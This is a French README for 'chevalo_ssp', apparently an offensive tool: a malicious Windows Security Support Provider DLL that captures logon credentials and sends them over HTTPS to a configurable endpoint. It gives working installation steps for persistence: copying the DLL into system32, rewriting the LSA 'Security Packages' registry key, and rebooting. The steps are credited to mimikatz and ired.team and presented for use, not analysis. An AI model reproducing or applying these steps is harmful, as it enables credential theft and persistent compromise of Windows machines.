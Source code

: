 # chevalo_ssp
# TL;DR

gros copier coller de 

https://github.com/gentilkiwi

et 

https://www.ired.team/offensive-security/credential-access-and-credential-dumping/intercepting-logon-credentials-via-custom-security-support-provider-and-authentication-package

# kekesé

Chat GPT

> SSP est l'abréviation de Security Support Provider (Fournisseur de support de sécurité). Dans le contexte de Windows, il s'agit d'un composant logiciel qui permet de gérer l'authentification et la sécurité des connexions réseau. Les SSP sont utilisés par les services d'authentification de Windows pour négocier les protocoles d'authentification avec les clients et les serveurs. Ils sont utilisés pour des connexions telles que les connexions de bureau à distance (RDP), les partages de fichiers et les services Web. Les exemples de SSP dans Windows incluent NTLM, Kerberos et Schannel.


chevalo_ssp est donc un ssp malveillant qui récupére les identifiants de connexion et les envois en https sur un endpoint choisie.

# configuration

il est possible de modifier:
* URL
* User-Agent

# injection



## injection via winapi

CF ssp_injector qui arrive bientot je l'ai ouvlier aux boulot donc a dans 2-3 semaines.

## injection via clef de registre

### step1

copier la dll dans system32.
```
copy ssp.dll %systemroot%\system32\chevalo.dll
```

### step2

recupération de la clef de registre.

```
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
```


### step3

modification de la clef de registre.

Example volé a ired.team

```
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0chevalo.dll" /t REG_MULTI_SZ /f
```

### step4

redémarrer la machine.
```
reboot
```